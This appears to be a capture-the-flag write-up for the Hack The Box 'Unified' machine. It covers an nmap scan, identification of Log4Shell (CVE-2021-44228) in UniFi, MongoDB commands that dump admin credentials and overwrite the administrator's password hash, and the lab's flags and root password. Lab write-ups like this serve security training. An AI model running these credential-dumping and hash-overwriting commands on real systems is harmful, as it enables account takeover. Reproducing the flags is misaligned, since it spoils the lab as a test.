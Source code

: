 # Unified

## Initial Scan

```nmap
sudo nmap -T4 -Pn -sV -sC -v 10.129.96.149 -oA Unified
```

```nmap
sudo nmap -T4 -Pn -sV -sC -v 10.129.96.149 -oA Unified
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 04:39 EDT
<snip>
Discovered open port 8080/tcp on 10.129.96.149
Discovered open port 22/tcp on 10.129.96.149
Discovered open port 8443/tcp on 10.129.96.149
Discovered open port 6789/tcp on 10.129.96.149
Completed SYN Stealth Scan at 04:39, 1.56s elapsed (1000 total ports)
Initiating Service scan at 04:39
Scanning 4 services on 10.129.96.149
Completed Service scan at 04:42, 156.77s elapsed (4 services on 1 host)
NSE: Script scanning 10.129.96.149.
Initiating NSE at 04:42
Completed NSE at 04:42, 14.31s elapsed
Initiating NSE at 04:42
Completed NSE at 04:42, 1.08s elapsed
Initiating NSE at 04:42
Completed NSE at 04:42, 0.00s elapsed
Nmap scan report for 10.129.96.149
Host is up (0.020s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-title: Did not follow redirect to https://10.129.96.149:8443/manage
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Thu, 26 Oct 2023 08:39:50 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404 
|     Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404 
|     Found</h1></body></html>
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 302 
|     Location: http://localhost:8080/manage
|     Content-Length: 0
|     Date: Thu, 26 Oct 2023 08:39:50 GMT
|     Connection: close
|   RTSPRequest, Socks5: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Thu, 26 Oct 2023 08:39:50 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Issuer: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-12-30T21:37:24
| Not valid after:  2024-04-03T21:37:24
| MD5:   e6be:8c03:5e12:6827:d1fe:612d:dc76:a919
|_SHA-1: 111b:aa11:9cca:4401:7cec:6e03:dc45:5cfe:65f6:d829
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
<snip>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Task 1

Which are the first four open ports?

Answer: 22,6789,8080,8443

## Task 2

What is the title of the software that is running running on port 8443?

Answer: UniFi Network

## Task 3

What is the version of the software that is running?

<figure><img src="../../../.gitbook/assets/image (935).png" alt=""><figcaption></figcaption></figure>

Answer: 6.4.54

## Task 4

What is the CVE for the identified vulnerability?

<figure><img src="../../../.gitbook/assets/image (936).png" alt=""><figcaption></figcaption></figure>

Answer: CVE-2021-44228

## Task 5

What protocol does JNDI leverage in the injection?

<figure><img src="../../../.gitbook/assets/image (937).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (938).png" alt=""><figcaption></figcaption></figure>

Answer: ldap

## Task 6

What tool do we use to intercept the traffic, indicating the attack was successful?

Answer: tcpdump

## Task 7

What port do we need to inspect intercepted traffic for?

Answer: 389

## Task 8

What port is the MongoDB service running on?

<figure><img src="../../../.gitbook/assets/image (939).png" alt=""><figcaption></figcaption></figure>

Answer: 27117

## Task 9

What is the default database name for UniFi applications?

<figure><img src="../../../.gitbook/assets/image (940).png" alt=""><figcaption></figcaption></figure>

Answer: ace

## Task 10

What is the function we use to enumerate users within the database in MongoDB?

Answer: db.admin.find()

## Task 11

What is the function we use to update users within the database in MongoDB?

Answer: db.admin.update()

## Task 12

What is the password for the root user? Grab admin PW from MongoDB

```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

<figure><img src="../../../.gitbook/assets/image (941).png" alt=""><figcaption></figcaption></figure>

Update admin password

```bash
mkpasswd -m sha-512 Password1234

$6$sbnjIZBtmRds.L/E$fEKZhosqeHykiVWT1IBGju43WdVdDauv5RsvIPifi32CC2TTNU8kHOd2ToaW8fIX7XXM8P5Z8j4NB1gJGTONl1
```

```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$ttw6pQsuECHKIDhO$zNY4cTuEmzd8kpQZHShWAIms1LpeEyH7NfcYXVpK3FN6mzwgKyf21T2208HS0jt4Ve.wSpifTfKbN4pcpqiL8/"}})'
```

<figure><img src="../../../.gitbook/assets/image (942).png" alt=""><figcaption></figcaption></figure>

Login with `administrator:Password1234`

<figure><img src="../../../.gitbook/assets/image (943).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (944).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (945).png" alt=""><figcaption></figcaption></figure>

Answer: NotACrackablePassword4U2022

## Task 13

Submit User Flag

<figure><img src="../../../.gitbook/assets/image (946).png" alt=""><figcaption></figcaption></figure>

Answer: 6ced1a6a89e666c0620cdb10262ba127

## Task 14

Submit Root Flag

<figure><img src="../../../.gitbook/assets/image (947).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (948).png" alt=""><figcaption></figcaption></figure>

Answer: e50bc93c75b634e4b272d2f771c33681
